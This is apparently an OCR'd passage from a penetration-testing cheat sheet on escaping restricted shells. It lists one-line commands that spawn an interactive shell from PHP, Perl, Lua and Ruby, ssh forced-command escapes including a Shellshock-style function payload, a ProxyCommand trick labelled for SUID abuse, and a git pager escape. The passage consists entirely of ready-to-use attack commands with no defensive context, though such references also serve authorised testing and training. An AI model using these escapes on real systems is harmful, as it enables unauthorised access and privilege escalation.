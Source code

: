 # php -a then exec("sh -i");

From perl:

# perl -e 'exec "/bin/sh";'

From lua:

# os.execute('/bin/sh')

From ruby:

# exec "/bin/sh"

Advanced Techniques:

From ssh:

# ssh <USER>@<RHOST> -t "/bin/sh"

or

# ssh <USER>@<RHOST> -t "/bin/bash"

or

# ssh <USER>@<RHOST> -t "bash --noprofile"

or

# ssh <USER>@<RHOST> -t "() { :; }; /bin/bash" 

or

# ssh -o ProxyCommand="sh -c /tmp/<FILE>.sh"127.0.0.1     <- SUID

From git:

# git help status
# !/bin/bash
